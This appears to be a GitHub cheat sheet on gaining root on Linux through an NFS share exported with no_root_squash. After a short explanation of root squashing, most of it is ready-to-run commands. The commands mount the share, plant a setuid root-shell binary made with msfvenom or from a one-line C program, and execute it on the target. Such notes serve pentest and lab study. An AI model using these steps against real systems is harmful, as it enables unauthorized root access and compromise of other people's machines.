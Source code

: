 - - -
## Explaination :

**Root Squash** :
Root Squashing is how **NFS** prevents an obvious privilege escalation.
If the remote user is (or claims to be) **root** (uid=0), NFS will instead “**squash**” the user and
treat them as if they are the“**nobody**” user, in the “**nogroup**” group.
While this behavior is default, it can be disabled!

**No_Root_Squash :**
**no_root_squash** is an **NFS** **configuration** option which turns root **squashing off**.
When included in a writable share configuration, a remote user who identifies as “**root**” can create files on the NFS share as the local **root** user.

- - -

## Checking for Prvilege Escalation :

Check the contents of /etc/exports for shares with the **no_root_squash** option: ( ON Target Machine )

```sh
cat /etc/exports
```

Confirm that the NFS share is available for remote mounting:

```sh
showmount -e $IP
```

- - -

## Privilege Escalation Technique [ [ 1 ] ]  :

```sh
mkdir /tmp/nfs
```

```sh
mount -o rw,vers=2 $IP:/Share_name /tmp/nfs
```

Using the root user on your local machine, generate a payload and save it to the mounted share:

```sh
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```

```sh
chmod +xs /tmp/nfs/shell.elf
```

On the target machine, execute the file to get a root shell:

```sh
/Path/to/the/Share/shell.elf
```


## Privilege Escalation Technique [ [ 2 ] ]  :

```sh
mkdir /tmp/mountme
```

```sh
mount -o rw,vers=2 $IP:/Share_name /tmp/mountme
```

```sh
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/mountme/x.c
```

```sh
cat /tmp/mountme/x.c
```

```sh
gcc /tmp/mountme/x.c -o /tmp/mountme/x
```

```sh
chmod +xs /tmp/mountme/x
```

On target machine, execute the file to get a root shell:

```sh
cd /path/to/the/share
```

```sh
./x
```

- - -


